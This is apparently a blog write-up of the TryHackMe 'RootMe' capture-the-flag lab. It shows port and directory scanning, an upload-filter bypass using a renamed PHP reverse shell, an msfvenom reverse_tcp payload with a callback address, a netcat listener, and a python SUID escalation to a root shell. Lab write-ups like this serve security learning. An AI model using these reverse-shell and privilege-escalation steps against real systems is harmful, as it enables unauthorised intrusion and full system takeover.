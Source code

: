 ```yaml
---
layout: post
title: "RootMe"
date: 2023-10-08
categories: ["Hands-on", "TryHackMe"]
tags: ""
---
```


# Root Me
> A ctf for beginners, can you root me? 

Used: **nmap**, **gobuster**

## Task 2: Reconnaissance

### Nmap
Scanning for services on the target machine for open ports, and service version

```bash
nmap -sV -Pn ip
```

![nmap](/images/rootme/nmap_scan.png)

### GoBuster
Scanning for directories on the web server with gobuster

```bash
gobuster dir -u url -w /usr/share/wordlists/dirb/common.txt
```

After scanning, we found out two interesting directories the panel that allows uploading and the uploads that i believe is the directory where the files uploaded end up in. 

![gobuster](/images/rootme/gobuster.png)


## Task 3: Getting a shell
We can get the shell by using the reverse shell from [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) and modifying the Ip address and the port. 

After uploading, the system does not allow the upload of PHP file so as a next step we can try different format.

![panel](/images/rootme/panel_upload_php_failed.png)

```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.9.14.150 LPORT=6666 -f elf > shell-x64.elf
```
![msfvenom](/images/rootme/elf_file_upload_works.png)

While the system allowed the upload of the file, it did not run it. We could change the format of PHP to be PH5 by copying the file from pentest reverse shell and change the format by renaming it. We were able to upload it and the next step would be to setup the listening then pressing on the file in the /uploads directory. 

```bash
nc -nvlp 6666
```
Once the listener is setup, we can press on the file and find the flag. I manually attempted to locate the file to get an idea on what is there but you can use the below commant to find it easily. We were able to find the cat.txt in the www directory 

![nc](/images/rootme/nc.png)

```bash
find / -type f -name user.txt 
```

Find arguments explained:
- type f to look for file
- name is user.txt

find a file with the name user.txt

## Task 4: Privillege escalation 
Now that we have the user, we need to escalate our privilege to the root. The task requests us to search for files with SUID permission and check if there is a weird file.

I used the below command to search for all the files with SUID permission that can be run as root. We can find that we can run python as root which means we can escalate our privilege by telling python to run bash as sudo 

```bash
find / -user root -perm /4000
```
![python](/images/rootme/python.png)


```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![python](/images/rootme/root.png)


